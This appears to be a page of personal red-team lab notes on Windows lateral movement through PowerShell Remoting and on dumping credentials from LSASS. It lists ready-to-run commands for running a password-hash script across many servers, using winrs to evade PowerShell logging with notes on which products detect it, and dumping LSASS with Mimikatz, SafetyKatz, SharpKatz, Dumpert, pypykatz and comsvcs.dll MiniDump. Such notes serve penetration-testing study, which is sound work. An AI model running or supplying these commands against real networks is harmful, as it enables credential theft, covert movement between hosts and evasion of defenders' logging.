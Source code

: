 # **Lateral Movement - PowerShell Remoting**
- PowerShell Remoting (PSRemoting) is like psexec on steroids but much more silent and faster
- PSRemoting uses Windows Remote Management (WinRM) which is Microsoft's implementation of WS-Management
- Enabled by default on Server 2012 onwards with a FW exception
- Uses WinRM and listens by default on 5985 (HTTP) and 5986 (HTTPS)
- Its the recommended way to manage Windows Core Servers (without GUI)
- It may be needed to enable remoting (Enable-PSRemoting) on a Desktop Windows machines, Admin privs are required to do that
- The remoting process runs as a high integrity process. That is, you get an elevated shell
(start invisi-shell)
`Enter-PSSession -ComputerName dcorp-adminsrv` (get session as dcorp-adminsrv, we seen that we have administrative access)
- One-to-One - PSSession (Interactive, Runs in a new process (wsmprovhost), stateful)
`New-PSSession` and `Enter-PSSession`
- One-to-Many / Fan-out remoting (Non-interactive, executes commands parallelly)
`Invoke-Command`
	- Run commands and scripts on multiple remote computers, in disconnected sessions, as background job, etc
	- Best thing in PS for passing the hashes, using credentials and executing commands on multiple remote computers.
	- Use `-Credential` to pass username/password
	- `Invoke-Command -Scriptblock {Get-Process} -ComputerName (Get-Content <servers>)` (execute commands or scriptblocks)
	- `Invoke-Command -FilePath C:\scripts\Get-PassHashes.ps1 -ComputerName (Get-Content <servers>)` (execute scripts from files)
	- ```$sess = New-PSSession -ComputerName server1
	Invoke-Command -Session $sess -ScriptBlock {$Proc = Get-Process}
	Invoke-Command -Session $sess -ScriptBlock {$Proc.Name}```
	or
	- ```$adminsrv = New-PSSession -ComputerName dcorp-adminsrv
	Enter-PSSession -Session $adminsrv```
PowerShell Remoting (unfortunely) supports the system-wide transcripts and deep script block logging
We can use winrs in place of PSRemoting to evade the logging (and still reap the benefit of 5985 allowed between hosts): 
`winrs -remote:dcorp-adminsrv cmd` (MDE doesn't detect, MDI detects)
# **Lateral Movement - Credential Dumping/Extraction**
## **From LSASS**
(Do not touch LSASS, unless its the only option. Look for Credential Vault/DPAPI/SAMHIVE/LSA registry)
Mimikatz, Invoke-Mimikatz, Invoke-Mimi
- #### ***Dump credentials on a local machine using Mimikatz***
`Invoke-Mimikatz -Command "sekurlsa::ekeys"`
- #### ***Using SafetyKatz (Minidump of lsass and PELoader to run Mimikatz)***
`SafetyKatz.exe "sekurlsa::ekeys"`
- #### ***Dumping credentials using SharpKatz (C# port of some of Mimikatz functionality)***
`SharpKatz.exe --Command ekeys`
- #### ***Dump credentials using Dumpert (Direct System Calls and API unhooking)***
`rundll32.exe C:\Dumpert\Outflank-Dumpert.dll,dump`
- #### ***Using Pypykatz (Mimikatz functionality in Python)***
`pypykatz.exe live lsa`
- #### ***Using comsvcs.dll***
`tasklist /FI "IMAGENAME eq lsass.exe"`
`rundll32.exe C:\Windows\System32\comsvcs.dll, MiniDump <lsass PID> C:\Users\Public\lsass.dmp full`
- #### ***From a linux attacking machine***
	- Impacket
	- Physmem2profit
